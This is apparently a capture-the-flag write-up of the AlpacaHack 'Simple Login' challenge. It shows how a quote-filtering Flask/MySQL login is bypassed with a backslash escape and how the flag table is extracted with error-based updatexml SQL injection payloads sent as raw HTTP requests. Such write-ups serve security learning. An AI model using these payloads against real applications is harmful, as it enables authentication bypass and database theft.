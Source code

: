 # Simple Login

<details><summary><strong>Table of Contents</strong></summary>

- [Overview](#overview)
- [Background](#background)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Conclusion](#conclusion)

</details>

## Overview

- 84 solves / 108 points
- Author: @ark
- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

A simple login service :)

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170143.png)

## Enumeration

Index page:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165716.png)

When we go to `/`, it redirected us to `/login`, which means we'll need to login first.

Let's try some random credentials, such as `admin:admin`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165752.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165800.png)

Burp Suite HTTP history:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901165842.png)

When we clicked the "Login" button, it'll send a POST request to `/login` with parameter `username` and `password`.

As expected, since the random credential that we just submitted is incorrect, it responded to us with "No user".

Hmm... Because this kind of request usually done with a database. Let's try some **SQL injection** payloads, like `' OR 1=1-- -`:

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901170259.png)

This time it responded with "Do not try SQL injection". Looks like the web application is filtering out SQL injection payload! To figure what does the filter do, we can view this web application's source code.

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/Simple-Login/simple-login.tar.gz):**
```shell
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:36(HKT)]
└> file simple-login.tar.gz 
simple-login.tar.gz: gzip compressed data, from Unix, original size modulo 2^32 20480
┌[siunam♥Mercury]-(~/ctf/AlpacaHack-Round-2-(Web)/Simple-Login)-[2024.09.01|17:05:38(HKT)]
└> tar xvzf simple-login.tar.gz 
simple-login/
simple-login/db/
simple-login/db/init.sql
simple-login/compose.yaml
simple-login/web/
simple-login/web/app.py
simple-login/web/templates/
simple-login/web/templates/index.html
simple-login/web/templates/login.html
simple-login/web/Dockerfile
simple-login/web/requirements.txt
```

After reading the source code a little, we can have the following findings:
1. This web application is written in Python with [Flask](https://flask.palletsprojects.com/en/3.0.x/) web application framework
2. This web application uses a DBMS (Database Management System) called [MySQL](https://www.mysql.com/), and it uses [PyMySQL](https://github.com/PyMySQL/PyMySQL) for the client connection

Let's deep dive into those logics!

First off, what's our objective? Where's the flag?

In `simple-login/db/init.sql`, we can see that the flag is inserted into table `flag`:

```sql
USE chall;

DROP TABLE IF EXISTS flag;
CREATE TABLE IF NOT EXISTS flag (
    value VARCHAR(128) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=utf8mb4 COLLATE=utf8mb4_bin;

-- On the remote server, a real flag is inserted.
INSERT INTO flag (value) VALUES ('Alpaca{REDACTED}');
[...]
```

So, our goal is this challenge is to somehow **exfiltrate table `flag`'s record**.

Now let's go to `simple-login/web/app.py`. In there, it has 2 routes. However, only 1 of them are really interesting to us, which is POST route `/login`:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    if request.method == "POST":
        username = request.form.get("username")
        password = request.form.get("password")

        if username is None or password is None:
            return "Missing required parameters", 400
        if len(username) > 64 or len(password) > 64:
            return "Too long parameters", 400
        if "'" in username or "'" in password:
            return "Do not try SQL injection 🤗", 400

        conn = None
        try:
            conn = db()
            with conn.cursor() as cursor:
                cursor.execute(
                    f"SELECT * FROM users WHERE username = '{username}' AND password = '{password}'"
                )
                user = cursor.fetchone()
        [...]
    else:
        [...]
```

Right off the bat, we can see there's a SQL injection vulnerability, as this route **directly concatenates our POST parameter `username` and `password` value into the raw SQL query**.

However, this SQL injection vulnerability is not that straight forward to be exploited, as it has this filter:

```python
@app.route("/login", methods=["GET", "POST"])
def login():
    [...]
    if "'" in username or "'" in password:
        return "Do not try SQL injection 🤗", 400
```

As you can see, if our parameter's value **contains** single quote (`'`) character, it'll not execute the raw SQL query.

## Exploitation

Can we bypass this filter? Well, yes!

To do so, we can **use a backslash character (`\`) in the `username` parameter** to **escape the string**, and then we can inject our SQL injection payload into the `password` parameter!

**Original SQL query:**
```sql
SELECT * FROM users WHERE username = '{username}' AND password = '{password}'
```

**Our payload:**
```sql
SELECT * FROM users WHERE username = '\' AND password = ' OR 1=1-- -'
```

Nice! Let's test this!

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

username=\&password=+OR+1%3d1--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172030.png)

We now successfully bypassed the authenticated via SQL injection!

But wait, the flag is in the table `flag`...

To exfiltrate the flag record, we can use an error-based SQL injection payload, such as the following:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 72

username=\&password=+and+updatexml(null,concat(0x0a,version()),null)-- -
```

> Note: The above payload is from [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function).

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172352.png)

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 83

username=\&password=+and+updatexml(null,concat(0x0a,(select+*+from+flag)),null)--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172556.png)

Although the output is truncated, we can try to remove the new line character (`0x0a`) in the `concat` function:

```http
POST /login HTTP/1.1
Host: 34.170.146.252:41670
Content-Type: application/x-www-form-urlencoded
Content-Length: 78

username=\&password=+and+updatexml(null,concat((select+*+from+flag)),null)--+-
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/AlpacaHack-Round-2-Web/images/Pasted%20image%2020240901172708.png)

- **Flag: `Alpaca{SQLi_with0ut_5ingle_quot3s!}`**

## Conclusion

What we've learned:

1. SQL injection without single quotes